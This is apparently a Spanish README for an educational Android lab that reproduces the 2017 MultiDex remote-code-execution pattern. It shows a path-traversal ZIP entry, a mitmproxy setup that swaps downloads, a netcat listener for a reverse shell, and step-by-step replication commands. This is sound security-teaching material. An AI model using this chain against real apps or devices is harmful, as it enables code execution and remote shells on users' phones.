 # RCE Lab - Vulnerabilidad MultiDex 2017

## ¿Qué es esta vulnerabilidad?

Esta vulnerabilidad fue descubierta por **NowSecure en 2017** y afecta aplicaciones Android que utilizan MultiDex 1.0.1. El ataque combina dos técnicas:

1. **Path Traversal**: Archivos ZIP maliciosos que pueden escribir archivos fuera del directorio esperado usando `../../../../`
2. **MultiDex Auto-loading**: MultiDex 1.0.1 carga automáticamente archivos DEX desde el directorio `secondary-dexes`

**Referencia original
**: [NowSecure Blog - Android Multidex RCE](https://www.nowsecure.com/blog/2017/06/15/a-pattern-for-remote-code-execution-using-arbitrary-file-writes-and-multidex-applications/)

## ¿Cómo funciona el ataque?

1. La aplicación descarga archivos ZIP de URLs remotas
2. Un proxy malicioso (mitmproxy) intercepta las descargas y reemplaza el ZIP con uno malicioso
3. El ZIP malicioso contiene un archivo DEX en una ruta con path traversal: `../../../../data/data/com.app.lab.rce/code_cache/secondary-dexes/classes2.zip`
4. MultiDex 1.0.1 detecta automáticamente el archivo DEX y lo carga
5. El código malicioso se ejecuta inmediatamente (static initializer)

## Implementación del Path Traversal

### **Path Traversal Real vs Simulado**

El `exploit_bundle.zip` contiene una entrada con path traversal real:

```
../../../../data/data/com.app.lab.rce/code_cache/secondary-dexes/com.app.lab.rce-classes2.zip
```

Sin embargo, esta implementación **simula el resultado del path traversal** en lugar de ejecutarlo
directamente:

#### **¿Por qué simular en lugar de usar path traversal real?**

1. **Seguridad del Sistema Host**: Path traversal real podría escribir fuera del sandbox de la app
2. **Compatibilidad**: Funciona en cualquier versión de Android sin depender de permisos específicos
3. **Confiabilidad**: Android moderno tiene protecciones contra path traversal
4. **Propósito Educativo**: El resultado final es idéntico - DEX malicioso cargado por MultiDex

#### **Flujo de la Implementación:**

```kotlin
// 1. Extrae ZIP en cacheDir (seguro)
File(cacheDir, entryName)

// 2. Detecta archivos classes2.zip  
if (entryName.contains("classes2.zip"))

// 3. Copia manualmente a secondary-dexes (simula path traversal)
file.copyTo(File(targetDir, "com.app.lab.rce-classes2.zip"))

// 4. MultiDex carga automáticamente → RCE
```

## Requisitos

### **Software Necesario:**

- **Android SDK** con API Level 22+ instalado
- **Android Emulator** (API 21+) o dispositivo físico
- **ADB** configurado y funcionando
- **Python 3** con mitmproxy: `pip install mitmproxy`
- **Java JDK 8+** para compilar payload

### **Verificación de Requisitos:**

```bash
# Verificar ADB
adb version

# Verificar dispositivo conectado
adb devices

# Verificar Python y mitmproxy  
python3 -c "import mitmproxy; print('OK')"

# Verificar Android SDK
echo $ANDROID_HOME
```

## Pasos para replicar

### 1. Construir el payload malicioso

```bash
./build_payload.sh
```

Esto crea `exploit_bundle.zip` con el DEX malicioso y path traversal.

### 2. Compilar e instalar la aplicación vulnerable

```bash
./gradlew assembleDebug
adb install -r app/build/outputs/apk/debug/app-debug.apk
```

### 3. Configurar el proxy malicioso

```bash
# Iniciar mitmproxy en background
mitmdump -s mitmproxy/inject_payload.py -p 8090 &

# Configurar proxy en el emulador
adb shell settings put global http_proxy 10.0.2.2:8090
```

### 4. Preparar listener para reverse shell

```bash
nc -l 4444 &
```

### 5. Ejecutar el ataque

```bash
# Lanzar la aplicación
adb shell am start -n com.app.lab.rce/.MainActivity

```

## ¿Cómo saber si funcionó?

### Indicadores visuales:

- **UI de la app**: Cambia de "SECURE" (verde) a "COMPROMISED" (rojo)

### Verificación técnica:

```bash
# Verificar archivo de evidencia
adb shell run-as com.app.lab.rce cat files/pwned.txt

# Verificar conexiones del reverse shell
lsof -i :4444
```

## Componentes del exploit

- **`AdUpdateService.kt`**: Descarga ZIPs cada 10 segundos y simula path traversal
- **`RCEApplication.kt`**: Configuración MultiDex vulnerable
- **`Shell.java`**: Payload que crea archivo de evidencia y reverse shell
- **`inject_payload.py`**: Proxy que intercepta y reemplaza descargas
- **`build_payload.sh`**: Script que construye el ZIP malicioso

## Funcionamiento automático

Una vez iniciada, la aplicación:

- Descarga archivos cada 10 segundos automáticamente
- El proxy intercepta y sirve el payload malicioso
- El exploit se ejecuta automáticamente sin intervención del usuario
- El exploit se ejecuta en el siguiente restart (patrón NowSecure 2017)
- Cada ejecución crea nuevas conexiones de reverse shell


**⚠️ Nota**: Este proyecto es solo para fines educativos y demostración de vulnerabilidades de seguridad. No usar para actividades maliciosas.
